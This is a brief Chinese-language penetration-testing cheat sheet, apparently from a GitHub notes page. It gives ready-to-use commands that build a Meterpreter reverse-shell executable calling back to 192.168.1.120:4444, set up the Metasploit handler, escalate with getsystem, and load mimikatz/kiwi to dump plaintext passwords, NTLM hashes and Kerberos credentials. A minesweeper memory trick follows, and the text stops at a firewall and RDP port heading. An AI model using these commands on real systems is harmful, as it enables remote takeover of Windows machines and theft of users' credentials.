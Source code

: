 

连接木马：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4444 -f exe -o msf.exe

use exploit/muti/handler

set payload windows/x64/meterpreter/reverse_tcp

show options

set lhost 192.168.1.120

exploit

getuid
getsystem
getuid
```



进入session加载猕猴桃：

```
load mimikatz(或load kiwi)   # 加载猕猴桃

help kiwi   # 查看猕猴桃的命令

creds_all    # 列出所有的凭据（得到LM,NTLM等即密码明文）

creds_kerberos     # 拿到所有密码

creds_msv     # 只列出当前用户加密之后的密码
```



**电脑版本的猕猴桃软件**：通过获取内存内容得到答案

扫雷外挂（Windows2003，Windows7）:

```
winmine::infos
```



## 防火墙和3389端口：

### 正常打开/关闭防火墙：
